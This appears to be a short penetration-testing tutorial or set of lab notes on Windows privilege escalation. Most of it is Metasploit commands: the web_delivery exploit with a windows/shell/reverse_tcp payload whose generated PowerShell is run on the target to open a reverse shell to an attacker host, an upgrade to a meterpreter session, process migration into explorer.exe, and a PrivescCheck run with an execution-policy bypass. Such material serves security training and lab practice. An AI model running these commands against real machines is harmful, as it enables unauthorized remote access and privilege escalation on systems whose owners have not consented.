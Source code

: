 
<h4>Identifying Windows Privilege Escalation</h4>

>A tool we can use for this is the  PrivescCheck script. You can get it [here](https://github.com/itm4n/PrivescCheck)

Using the web delivery exploit, this generates a powershell code we can run on the target's machine, hence providing us with a command shell that can be upgraded to a meterpreter shell
```
use exploit/multi/script/web_delivery
set target PSH\  (Binary)
set payload windows/shell/reverse_tcp 
set PSH-EncodedCommand false
set LHOST
exploit
```
copy the powerhsell code and run it on the target's cmd , you should get a command shell session when you run it
To upgrade to a meterpreter shell
```
use post/multi/manage/shell_to_meterpreter
set SESSION
set LHOST
set WIN_TRANSFER VBS
exploit
```
Migrate to a x64 architecture
```
pgrep explorer.exe
migrate 777
```
To escalate privileges using the Privesccheck powershell script
```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```
